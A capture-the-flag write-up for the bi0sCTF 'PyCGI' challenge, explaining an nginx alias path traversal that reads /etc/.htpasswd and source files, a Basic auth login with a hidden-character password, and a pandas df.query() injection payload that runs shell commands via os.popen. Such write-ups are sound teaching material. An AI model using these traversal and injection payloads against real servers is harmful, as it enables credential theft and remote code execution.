



PyCGI - bi0sCTF Writeup
This challenge was about python CGI scripts, where instead of having regular .cgi scripts, python is used to run them which makes it easier to write. Combined with an RCE in pandas’s df.query() function.
Analysis
This challenge required many steps but they were very well staged in a way that wasn’t guessy. I admit tho at first we only got the nginx.conf file which doesn’t really give us much, but then we were given the Dockerfile and that made it much easier to analyse.
So let’s start with the nginx.conf
user root;
worker_processes 16;
events {
worker_connections 1024;
}
http {
include mime.types;
default_type application/octet-stream;
sendfile on;
keepalive_timeout 65;
server {
listen 8000;
server_name localhost;
location / {
autoindex on;
root /panda/;
}
location /cgi-bin/ {
gzip off;
auth_basic "Admin Area";
auth_basic_user_file /etc/.htpasswd;
include fastcgi_params;
fastcgi_pass unix:/var/run/fcgiwrap.socket;
fastcgi_param SCRIPT_FILENAME /panda/$fastcgi_script_name;
}
location /static {
alias /static/;
}
}
}
So we can immidiatly tell there’s a path traversal vulnerability from the last part defining an alias for /static.
Read more about it here : https://www.acunetix.com/vulnerabilities/web/path-traversal-via-misconfigured-nginx-alias/
So first i tried getting the admin password for cgi-bin with http://instance.chall.bi0s.in:10023/static../etc/.htpasswd
admin:$apr1$OJtrtoJK$.OLHDj5RzHnSjcFkOi9ZT/
A quick google search and common knowledge hinted me that the hash is not bruteforcable .. and i even tried with common wordlists but no luck.
Okey so maybe try and read the flag? Well that’s what i was tryin to do after the password until we got the Dockerfile..
FROM ubuntu
RUN apt-get -y update && DEBIAN_FRONTEND="noninteractive" TZ="Asia/Kolkata" apt-get -y -q install nginx apache2-utils spawn-fcgi fcgiwrap python3 python3-pip
EXPOSE 80/tcp
RUN ["pip3", "install", "pandas"]
COPY docker-entrypoint.sh /
RUN ["chmod", "+x", "/docker-entrypoint.sh"]
COPY flag.txt /
COPY static /static/
COPY config/nginx.conf /etc/nginx/
COPY src/ /panda
ENTRYPOINT ["/docker-entrypoint.sh"]
Well there’s no problem right? the flag is at /flag.txt?? well yeah that’s again what i thought for a while until i tried getting the docker-entrypoint.sh file with path traversal.
#!/bin/sh
export PYTHONDONTWRITEBYTECODE=1
mv flag.txt $(head /dev/urandom | shasum | cut -d' ' -f1)
htpasswd -mbc /etc/.htpasswd admin Â
spawn-fcgi -s /var/run/fcgiwrap.socket -M 766 /usr/sbin/fcgiwrap
/usr/sbin/nginx
while true; do sleep 1; done
We can see an interesting command for the admin password ‘htpasswd’ , i wasn’t very aware of what -mbc does.
htpasswd -mbc /etc/.htpasswd admin Â
So after checking the man page, we notice the random  char at the end? well turns out thats the password, but it was using an invisible char u can’t just copy and paste to login so we can use the base64 encoded Authorization for login. Let’s try it,
Authorization: Basic YWRtaW46wq0=
and bingo! we got a different output, 403 forbidden ??
Well turns out that was just an error message because we can’t simply do some directory listing on the cgi-bin so maybe we can get something else? maybe some scripts inside it?
During the exploring in the app there was a templates directory with a HTML flask template that has a form for searching of currency, but it doesn’t work because it’s pointing towards search_currency.py which doesn’t exist!! but maybe it exists in cgi-bin?
Turns out yep! Hence the challenge name, PyCGI , python based cgi scripts

Read more about them here : https://linuxhint.com/python-cgi-script/
With the script being in cgi-bin and us being admin we can try and execute it with /cgi-bin/search_currency.py?currency_name=

Okey now what? Well remember the path traversal vulnerability ? let’s try and use it to get the python script code!!
#!/usr/bin/python3
from server import Server
import pandas as pd
try:
df = pd.read_csv("../database/currency-rates.csv")
server = Server()
server.set_header("Content-Type", "text/html")
params = server.get_params()
assert "currency_name" in params
currency_code = params["currency_name"]
results = df.query(f"currency == '{currency_code}'")
server.add_body(results.to_html())
server.send_response()
except Exception as e:
print("Content-Type: text/html")
print()
print("Exception")
print(str(e))
Nice! we now have some context, let’s try and extract server.py aswell ( refrenced in the import section of the code)
from os import environ
class Server:
def __init__(self):
self.response_headers = {}
self.response_body = ""
self.post_body = ""
self.request_method = self.get_var("REQUEST_METHOD")
self.content_length = 0
def get_params(self):
request_uri = self.get_var("REQUEST_URI") if self.get_var("REQUEST_URI") else ""
params_dict = {}
if "?" in request_uri:
params = request_uri.split("?")[1]
if "&" in params:
params = params.split("&")
for param in params:
params_dict[param.split("=")[0]] = param.split("=")[1]
else:
params_dict[params.split("=")[0]] = params.split("=")[1]
return params_dict
def get_var(self, variable):
return environ.get(variable)
def set_header(self, header, value):
self.response_headers[header] = value
def add_body(self, value):
self.response_body += value
def send_file(self, filename):
self.response_body += open(filename, "r").read()
def send_response(self):
for header in self.response_headers:
print(f"{header}: {self.response_headers[header]}\n")
print("\n")
print(self.response_body)
print("\n")
At first i was thinking there might a vulnerability in the way the server handles parameters or something.. but perhaps we can get rce in the search_currency.py somehow?
I tried for a bit but without success until while i was asleep one of our teammates figured out a way to get rce inside df.query() from the pandas library.
Exploit

So turns out we can call and import variables inside the df.query() with @
After the CTF ended, someone published their solution which was way more elegant using the os library from pandas itself! Genius.
a'+(@pd.io.common.os.popen('ls > /tmp/ls').read())+'
Overall great challenge, learned alot from it, it took longer than it should but it was rewarding.
Thanks to bi0s for the great CTF hoping to play next year !